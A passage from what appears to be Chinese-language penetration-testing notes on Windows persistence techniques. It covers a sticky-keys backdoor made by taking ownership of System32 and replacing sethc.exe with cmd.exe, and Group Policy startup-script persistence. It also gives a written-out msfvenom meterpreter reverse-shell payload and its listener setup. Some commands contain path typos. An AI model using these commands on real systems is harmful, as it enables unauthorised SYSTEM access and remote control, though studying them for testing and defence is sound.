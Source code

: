    `takeown /f c:\window\system32\*.* /a /r /d y`

   强制将目录下所有文件及文件夹、子文件夹下的所有者更改为管理员组（`administrator`）

   `cacls c:\windows\system32\*.* /T /E /G administrators:F`

   在当前目录下的文件、子文件夹的 `NTFS` 权限上添加管理员组（`administrator`）的完全控制权限（并保留原有的 `NTFS` 权限设置）

2. 复制 `cmd.exe` 为 `sethc.exe`（不提升权限有可能会提示拒绝访问）

   `copy c:\windows\system32 cmd.exe c:\windows\system32\sethc.exe`

3. 在登录界面，连按 5 下 `Shift` 键，即可以 `system` 账户打开终端



#### 启动项维持

**启动项**就是开机的时候系统会自动前台或者后台运行加载的程序。

##### 组策略维持

###### 组策略介绍

**组策略**（`Group Policy`）是微软家族操作系统的一个特性，它可以控制用户账户和计算机账户的工作环境。组策略提供了操作系统、应用程序和活动目录中用户设置的集中化管理和配置。组策略的其中一个版本名为**本地组策略**（`LGPO`或`LocalGPO`），这可以在独立且非域的计算机上管理组策略对象。

**利用原理**： 在组策略中添加 `payload`，利用组策略的自启动策略来加载 `payload` 文件

###### 组策略位置

1. 打开组策略

   `gpedit.msc`

2. 在【Windows设置】【脚本（启动/关闭）】，双击【启动】

3. 选择要添加的脚本或者 `powershell`

###### 利用方式

1. `Kali` 上生成 `powshell` （以 `msf` 为例）

   `msfvenom -p windows/x64/meterpreter/reverse_http -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=192.168.xxx.xxx lport=8888 -f psh -o shell.ps1`

2. 将 `shell.ps1` 传输到目标机器上

3. `Kali` 启动 `msf` 监听

   `msfconsole`

   `use exploit/multi/handler`

   `set payload windows/x64/meterpreter/reverse_http`

   `set LHOST 192.168.xxx.xxx`

   `set LPORT 8888`

   `run`

4. 运行 `shell.ps1` （测试是否正常）
